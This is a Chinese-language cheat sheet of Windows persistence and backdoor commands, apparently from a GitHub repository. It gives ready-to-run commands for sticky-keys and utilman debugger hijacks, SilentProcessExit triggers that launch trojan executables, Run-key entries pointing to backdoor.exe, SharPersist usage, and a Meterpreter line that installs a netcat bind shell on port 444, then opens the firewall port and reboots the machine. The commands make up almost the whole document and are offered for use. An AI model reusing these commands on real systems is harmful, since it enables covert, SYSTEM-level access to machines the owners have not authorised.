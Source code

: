 #### Sethc
	>move sethc.exe 1.exe
	>copy cmd.exe sethc.exe
	5下shift调用cmd
#### 轻松使用
	注册表
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
	新建Utilman.exe，新建字符串值Debugger,指定为C:\Windows\System32\cmd.exe
	> REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
#### IFEO静默执行
	计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe 新建DWORD值GlobalFlag 16进制为200
	创建：计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe字符串值：MonitorProcess=muma.exe
	DWORD值ReportingMode=1
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v GlobalFlag /t REG_DWORD /d 512 /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v ReportingMode /t REG_DWORD /d 1  /f
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\sethc.exe" /v MonitorProcess /t REG_SZ /d "c:\windows\system32\cmd.exe" /f

### 注册表启动项
	HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
	HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	>reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
	使用SharPersist
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
	>SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
#### MSF
	添加一个监听
	Meterpreter> reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'
	查询是否添加成功
	Meterpreter> reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
	Meterpreter> reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
	开启防火墙进站规则
	> netsh firewall add portopening TCP 444 "name" ENABLE ALL
	重启
	> shutdown -r -t 0
#### CMD
	查看注册表启动项
	>REG query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	添加启动项
	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "windowsupdate" /t REG_SZ /F /D "c:\windows\temp\update.exe"
	删除启动项
	>REG delete "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "windowsupdate" /f
#### GlobalFlag
  	notepad进程结束后执行后门
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
	>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
#### RDP后门
  	RDP登录界面按Windows 键+U，获得一个SYSTEM权限的 cmd.exe 
  	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
	在 RDP 登录屏幕时按多次 F5 
	>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f